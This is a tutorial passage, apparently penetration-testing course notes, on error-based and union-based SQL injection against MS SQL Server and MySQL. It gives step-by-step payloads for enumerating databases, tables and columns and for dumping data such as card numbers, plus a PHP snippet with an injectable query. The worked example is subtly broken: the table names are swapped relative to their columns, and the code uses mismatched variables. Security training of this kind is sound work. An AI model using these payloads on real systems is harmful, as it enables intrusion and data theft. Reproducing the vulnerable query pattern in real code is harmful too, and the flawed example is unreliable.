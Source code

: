 # 4.3.3 In-Band SQLi

## Error-Based SQL Injection

Error-based SQL injections are an advanced technique to extract data from a database by triggering errors that reveal information within the error messages. This method is particularly fast and effective and is supported by various database management systems (DBMS) such as Oracle, PostgreSQL, and MS SQL Server.

### **MS SQL Server Error-based Exploitation**

**MS SQL Server Version Extraction:** To begin, it's crucial to identify the version of the MS SQL Server, as different versions may have different default column names in the master database. The `CAST` technique is employed to trigger a type conversion error, which reveals the database version. For example:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))); --
```

This payload, when injected into the vulnerable parameter, will cause an error message that includes the database version.

**Enumerating Databases:** After identifying the version, the next step is to enumerate the databases accessible to the current user. This is done using the `db_name()` function within a loop:

```sql
9999999 or 1 in (SELECT TOP 1 CAST (db_name(1) as varchar(4096))); --
```

Incrementing the argument of `db_name()` allows iterating through the available databases.

**Enumerating Database Tables:** Once databases are enumerated, the next step is to find the tables in a particular database:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM <database_name>..sysobjects WHERE xtype='U' and name NOT IN ('')); --
```

Here, the `xtype='U'` condition ensures that only user-defined tables are considered.

**Enumerating Columns:** After identifying tables, the columns within those tables need to be enumerated:

```sql
9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table_name> AND <db_name>..syscolumns.name NOT IN ('')); --
```

This query retrieves the column names for a specific table in the specified database.

**Dumping Data:** Finally, with knowledge of the database structure, data can be dumped using a similar technique:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(<column_name> as varchar(4096)) FROM <database_name>..<table_name> WHERE <column_name> NOT IN ('')); -- -
```

This query retrieves the actual content of the specified column in the specified table.

### **MySQL Error-Based SQLi Exploitation**

To exploit error-based SQL injection on MySQL, the `GROUP BY` statement is utilized. An example payload skeleton is as follows:

```sql
SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information_to_extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

For example, to extract the database version:

```sql
SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

## Union-Based SQL Injection

In-band SQL injection, often known as UNION-based SQL injection, empowers the extraction of data from the database through the utilization of the UNION SQL command. This type of attack allows a penetration tester to retrieve database content, including the database name, table schemas, and actual data.

As illustrated in the initial chapter of this module, the UNION statement merges the result sets of two or more SELECT statements. For instance:

```sql
SELECT <field list> FROM <table> UNION SELECT <field list> FROM <another table>;
```

### Example of Scenario

Consider a scenario where the database contains two tables: `CreditCards` and `Users`. For example:

```plaintext
CreditCards
|id(int)|username(string)|password(string)|real_name(string)|
|-------|----------------|----------------|-----------------|
| 1     | admin          | strongpass123  | Armando Romeo   |
| 2     | fred           | wowstrongpass123| Fred Flintstone|

Users
|user_id(int)|Cc_num(int)          |CVS(int)|
|------------|---------------------|--------|
| 1          | 0000 1111 2222 3333 | 123    |
| 2          | 0123 4567 8901 2345 | 321    |
```

The web application employs the following code to display usernames:

```php
<?php
$rs = mysql_query("SELECT real_name FROM users WHERE id=" . $_GET['id'] . ";");
$row = mysql_fetch_assoc($rc);

echo $row['real_name'];
?>
```

Here, there is a clear SQL injection point in the `id` field of the SQL query.

To exploit the SQL injection vulnerability and retrieve the credit card associated with a username, the payload is:

```sql
9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1
```

This payload transforms the web application query into:

```sql
SELECT real_name FROM users WHERE id=9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1;
```

Since there are no users with `id=9999`, the web application displays the `cc_num` of the first user.

## In-band Attack Challenges

Several considerations arise in this in-band attack:

* The field types of the second SELECT statement should match those in the first statement.
* The number of fields in the second SELECT statement should match the number of fields in the first statement.
* To succeed in the attack, knowledge of the database structure in terms of tables and column names is essential.
